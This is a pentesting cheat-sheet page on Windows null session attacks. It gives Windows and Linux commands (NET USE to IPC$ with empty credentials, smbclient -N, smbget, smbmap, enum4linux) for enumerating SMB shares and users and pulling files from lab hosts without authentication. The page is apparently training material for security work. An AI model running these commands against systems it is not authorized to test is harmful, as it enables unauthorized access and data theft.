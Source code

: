 ```yaml
---
title: Windows Null session attack
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting windows 
---
```


# Windows Null session attack

It’s used to enumerate info (password, system users, system groups. running system processes). A null session attack exploits an authentification vulnerability for Windows Administrative Shares. This lets an attacker connect to a local or remote share without authentification.

## Manually from Windows

1.  **Enumerate File Server services**:    

```cmd
nbtstat -A $ip  

# ELS-WINXP   <00>   UNIQUE   Registered
# <00> tells us ELS-WINXP is a workstation.
# <20> says that the file sharing service is up and running on the machine
# UNIQUE tells us that this compiter must have only one IP address assigned
```

2.  **Enumerate Windows Shares**. Once we spot a machine with the File Server service running, we can enumerate:

```
NET VIEW $ip
```

3.  Verify if a null attack is possible by exploiting the IPC$ administrative share and trying to connect without valid credentials.

```
NET USE \\$ip\IPC$ ‘’ /u:’’
```

This tells Windows to connect to the IPC$ share by using an empty password and a empty username. It only works with IPC$ (not c$).

## Manually from Linux

Using the samba suite: https://www.samba.org/

1.  **Enumerate File Server services**: 

```bash
nmblookup -A $ip
```

2.  Also with the smbclient we can **enumerate the shares** provides by a host:  

```bash
smbclient -L //$ip -N

# -L  Look at what services are available on a target
# $ip Prepend the two slahes
# -N  Force the tool not to ask for a password
```

3.  Connect:

```bash
smbclient \\$ip\sharedfolder -N
```

Be careful, sometimes the shell removes the slashes and you need to escape them.

4.  Once connected you can browse with the smb command line. To see allowed commands: help 
5.  When you know the path of a file and you want to retrieve it:
	- from kali: 
	```bash
	smbget smb://$ip/SharedFolder/flag_1.txt
	```
	- from  smb command line: 
	```smb
	get flag_1.txt
	```

6.  To map users with permissions

```bash
smbmap -H demo.ine.local
```
 
To get an specific file in a connection: get flag.txt

## Tricks

Enumerate users with enum4linux -U demo.ine.local

Enumerate the permissions of users with smbmap -H demo.ine.local

If some users are missing in the permission list, maybe they are accesible, try with:

```
smbclient -L //$ip\<user> -N
```

## More tools

- [Winfo](winfo.md).
- [enum](enum.md).
- [enum4linux](enum4linux.md).
- [SAMRDump](samrdump.md).
